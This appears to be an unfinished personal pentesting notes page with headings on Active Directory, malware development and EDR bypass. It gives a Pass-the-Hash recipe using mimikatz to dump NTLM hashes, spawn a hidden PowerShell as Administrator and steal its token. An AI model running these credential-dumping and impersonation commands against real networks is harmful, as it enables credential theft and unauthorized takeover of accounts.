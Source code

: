 # Windows Host security features

# Security in AD network

# Windows related
### Process monitoring
Useful for trackig filesystem, Process, Threads, DLL activity


# Active Directory and Windows Pentesting
### User impersonation
- **PassTheHash**    - Dump NTLM hashes ```lsadump::sam```, now Impersonate a user ```mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:"powershell -w hidden"```, now migrate to the new created process as the impersonated user ```steal_token 1234```
- **PassTheTicket**  - ?????????????????????
- OverPassTheHash    -  


# Malware developement
- Grey hat GoLang

# EDR bypass 
- Evading EDR Book - https://learning.oreilly.com/library/view/evading-edr/9781098168742/

